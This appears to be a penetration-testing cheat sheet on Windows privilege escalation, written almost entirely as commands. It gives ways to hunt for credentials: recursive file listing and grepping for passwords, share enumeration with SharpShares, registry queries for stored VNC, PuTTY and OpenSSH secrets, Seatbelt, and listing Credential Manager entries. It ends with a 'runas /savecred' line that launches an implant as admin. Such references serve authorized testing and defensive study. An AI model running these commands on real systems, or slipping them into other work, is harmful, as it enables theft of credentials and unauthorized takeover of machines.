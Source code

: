 # Windows Privilege Escalation Techniques

## Searching for sensitive filles

Start by searching for sensitive files on the local C drive. After that search any reachable network shares. [SharpShares](https://github.com/mitchmoser/SharpShares) can be used to search for open network shares.

```
dir /b /a /s c:\ > c-dirs.txt
```

```
SharpShares.exe /ldap:all /filter:sysvol,netlogon,ipc$,print$
```

Either extract the c-dirs.txt file onto your system and use your tool/text editor of choice to search for sensitive file. If you prefer to stay on the windows system and search through the file, use `type` and `findstr` to search for sensitive string.

```
type c-dirs.txt | findstr /i passw
```

## Registry Queries
Passwords for putty, vnc, and OpenSSH keys can be stored in the registry.

```
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKCU\Software\TightVNC\Server"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query "HKCU\Software\OpenSSH\Agent\Keys"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

SeatBelt can also be used to search through the registry.

```
Seatbelt.exe WindowsAutoLogon
Seatbelt.exe reg
```

## Credential Manager

Credentials stored in the windows credential manager can be abused to run commands or launch payloads as another users.

**List stored credentials**
```
cmdkey /list
```

**User a stored credential**
```
runas /savecred /user:admin implant.exe
```